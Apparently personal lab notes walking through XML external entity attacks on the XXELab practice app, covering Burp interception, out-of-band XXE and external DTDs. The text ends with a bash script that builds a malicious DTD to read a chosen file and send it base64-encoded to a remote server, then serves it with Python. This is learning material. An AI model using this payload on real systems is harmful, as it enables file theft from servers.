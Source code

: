     ![[Untitled 105.png]]
    

---

• **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)

---

This is the login page of the app.

![[Untitled 106.png]]

Now, using Burp, we intercept the request.

![[Untitled 107.png]]

It is using XML, and it is also vulnerable to XXE.

![[Untitled 108.png]]

As seen, there is information being outputted, but there's is also sometimes where the information is not represented in the response.

Here when there no response, is where the XXEOOB (XXE OutOfBand Interaction) and the Externals DTD (XDTD) enter the game.

![[Untitled 109.png]]

![[Untitled 110.png]]

---

So, sometimes is not possible to inject entities, so we can use a HTTP server to inject.

![[Untitled 111.png]]

This wouldn't work if you cannot inject entities, since we would not be able to call the DTD.

So, we can “auto invoke” the DTD.

![[Untitled 112.png]]

So, if we check the server.

![[Untitled 113.png]]

So, this is the way to include an external DTD when we cannot call or create a new entity.

![[Untitled 114.png]]

![[Untitled 115.png]]

```Bash
#!/bin/bash

echo -ne "\n [+] Introduce el archivo a leer: " && read -r myFilename

malicious_dtd=""" 
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$myFilename\">
<!ENTITY % eval \"<!ENTITY &\#X25; exfil SYSTEM 'http://<remote_server_ip>/?file=%file;'>\">
%eval;
%exfil;"""

\#echo; echo $malicious_dtd
echo $malicious_dtd > malicious.dtd

python3 -m http.server <port> &>response &
```